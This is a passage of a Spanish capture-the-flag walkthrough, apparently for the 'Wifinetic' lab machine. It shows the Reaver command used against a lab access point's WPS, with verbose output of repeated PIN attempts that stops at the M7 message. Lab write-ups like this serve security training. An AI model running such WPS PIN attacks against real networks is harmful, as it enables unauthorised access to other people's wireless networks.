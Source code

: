 - Para usarla simplemente le necesitas proporcionar el nombre de la interfaz en modo monitor y la `MAC` del `target`.

- Vamos atacar el target donde se esta corriendo el **AP**.

```bash
netadmin@wifinetic:/$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received WSC NACK
[+] Sending WSC NACK
[!] WPS transaction failed (code: 0x04), re-trying last pin
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received WSC NACK
[+] Sending WSC NACK
[!] WPS transaction failed (code: 0x04), re-trying last pin
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received WSC NACK
[+] Sending WSC NACK
[!] WPS transaction failed (code: 0x04), re-trying last pin
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
```